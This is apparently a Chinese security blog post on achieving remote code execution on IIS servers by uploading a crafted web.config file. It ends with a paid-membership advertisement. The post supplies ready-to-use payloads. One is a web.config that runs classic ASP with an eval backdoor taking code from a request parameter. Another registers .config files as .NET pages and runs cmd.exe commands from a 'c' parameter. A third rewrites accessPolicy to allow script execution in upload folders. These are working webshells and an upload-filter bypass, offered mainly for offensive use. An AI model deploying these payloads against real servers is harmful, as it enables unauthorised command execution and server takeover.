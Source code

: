 #  .NET 上传web.config文件实现RCE   
专攻.NET安全的  dotNet安全矩阵   2023-09-11 08:40  
  
# 0x01 作为ASP脚本运行  
  
当某些运行.NET环境的IIS容器也支持托管 ASP 脚本  
时，有的场景可能会遇到无法直接上传扩展名为 .ASP 的文件，在这种情况下可以通过上传定制化的 web.config文件来运行经典 ASP 脚本代码。  
```
<system.webServer>
    <handlers accessPolicy="Read, Script, Write">
      <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
    </handlers>
    <security>
      <requestFiltering>
        <fileExtensions>
          <remove fileExtension=".config" />
        </fileExtensions>
        <hiddenSegments>
          <remove segment="web.config" />
        </hiddenSegments>
      </requestFiltering>
    </security>
  </system.webServer>
<!--
<%
Response.write("-"&"->")
Response.write(1+2)
on error resume next
if execute(request("dotnet")) <>"" then execute(request("dotnet"))
Response.write("<!-"&"-")
%>
-->
```  
  
访问 /web.config?dotnet=response.write(now())，页面返回当前日期信息，证明脚本运行成功。如下图所示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibBDoiaicxhG4t1iaex9EskOkoWF8yBcFE55icGWNcnxu1ickRPlstjSBJJvib4L7tGvGia2Ump8v0FyKiceQ/640?wx_fmt=png "")  
# 0x02 作为.NET运行  
  
当  
Internet Information Service  
服  
务器不支持  
ASP  
脚本，仅支持  
.NET  
运行环境时，有些漏洞场景可能会遇到无法上传  
ashx  
、  
aspx  
、  
asmx  
、  
soap  
等扩展名时，可以尝试通过上传定制化的   
web.config  
文件来运行  
.NET  
代码  
```
<system.web>
    <compilation defaultLanguage="cs">
      <buildProviders>
        <add extension=".config" type="System.Web.Compilation.PageBuildProvider" />
      </buildProviders>
    </compilation>
    <httpHandlers>
      <add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*" />
    </httpHandlers>
  </system.web>
  if (flag){
   System.Diagnostics.Process process = new System.Diagnostics.Process();
process.StartInfo.FileName = "cmd.exe";
  string str = httpContext.Request["c"];
  process.StartInfo.Arguments = "/c " + str;
  process.StartInfo.RedirectStandardOutput = true;
  process.StartInfo.RedirectStandardError = true;
  process.StartInfo.UseShellExecute = false;
  process.Start();
  string str2 = process.StandardOutput.ReadToEnd();
  httpContext.Response.Write("<pre>" + str2 + "</pre>");
  httpContext.Response.Flush();
  httpContext.Response.End();
}
```  
  
访问 /web.config，传入参数c=tasklist，页面返回当前所有的系统进程，脚本运行成功。如下图所示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibBDoiaicxhG4t1iaex9EskOko1wwK5veHgQbgp3icGicfBJUeAFSrqwARJc4Fib1EvEHxbESNZf4Picttdw/640?wx_fmt=png "")  
# 0x03 绕过策略限制  
  
web.config  
文件可用于配置  
IIS  
服务器的运行行为，实战中某些上传目录被管理员设定为禁止运行脚本，并且只  
提供读取操作，不具备修改和写入权限，比如对  
uploads  
目录下的  
web.config  
文件配置如下清单  
```
<system.webServer>
    <handlers accessPolicy="Read,Write">
    </handlers>
  </system.webServer>
```  
  
请求/uploads/Shell2asmx.soap如下图所示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibBDoiaicxhG4t1iaex9EskOkoSHhma7sNq9qKh0icNcPWXTTtImpIqjODeIQGvviatATV2UFuvBTNsia2g/640?wx_fmt=png "")  
  
但此时修改accessPolicy策略，添加写入、执行、运行脚本权限。即accessPolicy="Read,Write,Execute,Script"，再向uploads目录下上传新配置的这个web.config，如下图所示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibBDoiaicxhG4t1iaex9EskOkoKLa7WZ8iaIp6jBYiaUI4xibb65tadosetzOiaMsoMej5Ut4DjHmJ759icBA/640?wx_fmt=png "")  
# 欢迎加入星球  
  
为了更好地应对基于.NET技术栈的风险识别和未知威胁，dotNet安全矩阵星球从创建以来一直  
聚焦于.NET领域的安全攻防技术，定位于  
高质量安全攻防星球社区，也  
得到了许多师傅们的支持和信任，通过星球深度连接入圈的师傅们，一起推动.NET安全高质量的向前发展  
。经过运营团队成员商议一致同意给到师傅们最大优惠力度，  
**只需129元就可以加入我们。**  
  
星球汇聚了  
各行业安全攻防技术大咖，并且每日分享.NET安全技术干货以及交流解答各类技术等问题，社区中发布**很多高质量的.NET**  
安全资源，可以说市面上很少见，都是干货。其中主题包括  
**.NET Tricks、漏洞分析、内存马、代码审计、预编译、反序列化、webshell免杀、命令执行、C#工具库**  
等等，后续还会倾力打造  
**专刊、视频**  
等配套学习资源，循序渐进的方式引导加深安全攻防技术提高以及岗位内推等等服务。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8DlZsGiaRRGghficKFQt58Ueoynsb0my3uzMAb7VwM5bgtnb4nbl4c9xdEjGraUXic6pO0p38xmWiaRQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibHErRN3IhgSaicia7Rl5SF0plpcuicd0KG8Cn7vGczlBRtvSJvicWejH7TOro6AGLQ627SvVzxzBnphg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8DlZsGiaRRGghficKFQt58UeoxTMuRezdHEJu6Hp08Xgm2F49cyBI1zlcj5XqLJK8zedWlUjibYmia3g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9y0BnibYCn1b9GMKqxd1Z5A1DLLJ9YxZeCn52XA1Kw7T5ibWCv89ZXpGjPOY7hXBDRVwNdKbMLZR3A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibD85PKSjdDaRdDWkOHJ1gJarOZonDiboGHF5U5mzEVNgAVgVcF75Tou2VCxYjmA3pAvGJnibic1rIlg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
